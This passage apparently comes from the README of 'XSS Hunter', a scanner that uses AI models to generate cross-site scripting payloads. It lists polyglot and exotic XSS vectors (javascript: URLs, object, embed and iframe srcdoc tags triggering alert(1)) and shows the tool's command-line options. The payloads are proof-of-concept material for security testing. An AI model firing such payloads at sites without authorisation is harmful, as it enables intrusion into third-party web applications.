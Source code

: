 ### 5. Polyglot Payloads
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert(1))
```

### 6. Rare/Exotic Vectors
```html
<form><button formaction=javascript:alert(1)>Click</button></form>
<object data=javascript:alert(1)>
<embed src=javascript:alert(1)>
<iframe srcdoc="<script>alert(1)</script>">
```

## 📊 AI Provider Comparison

| Provider | Speed | Quality | Cost | Local |
|----------|-------|---------|------|-------|
| **OpenAI GPT-4** | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ | 💰💰💰 | ❌ |
| **Google Gemini** | ⭐⭐⭐⭐ | ⭐⭐⭐⭐ | 💰💰 | ❌ |
| **Claude** | ⭐⭐⭐ | ⭐⭐⭐⭐⭐ | 💰💰💰 | ❌ |
| **Ollama** | ⭐⭐ | ⭐⭐⭐ | 🆓 | ✅ |

## 🔍 Command Line Parameters

### Help Output
```bash
$ python xss_hunter.py --help

usage: xss_hunter.py [-h] -u URL [-v] [--scan-forms] [--timeout TIMEOUT]
                     [--ai {openai,gemini,claude,ollama}] [--api-key API_KEY]
                     [--ai-model AI_MODEL] [--ollama-url OLLAMA_URL]

XSS Hunter - AI-Powered XSS Vulnerability Scanner

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL to scan
  -v, --verbose         Verbose output
  --scan-forms          Also scan forms
  --timeout TIMEOUT     Request timeout (default: 10)
  --ai {openai,gemini,claude,ollama}
                        AI provider to use for payload generation
  --api-key API_KEY     API key for AI provider (not needed for Ollama)
  --ai-model AI_MODEL   Specific AI model to use (optional)
  --ollama-url OLLAMA_URL
                        Ollama server URL (default: http://localhost:11434)

Examples:
  xss_hunter.py -u "http://example.com/search?q=test" --ai openai --api-key YOUR_KEY
  xss_hunter.py -u "http://example.com/page.php?id=1" -v --ai gemini --api-key YOUR_KEY
  xss_hunter.py -u "http://example.com/form.html" --scan-forms --ai ollama
  xss_hunter.py -u "http://example.com" --ai claude --api-key YOUR_KEY
```
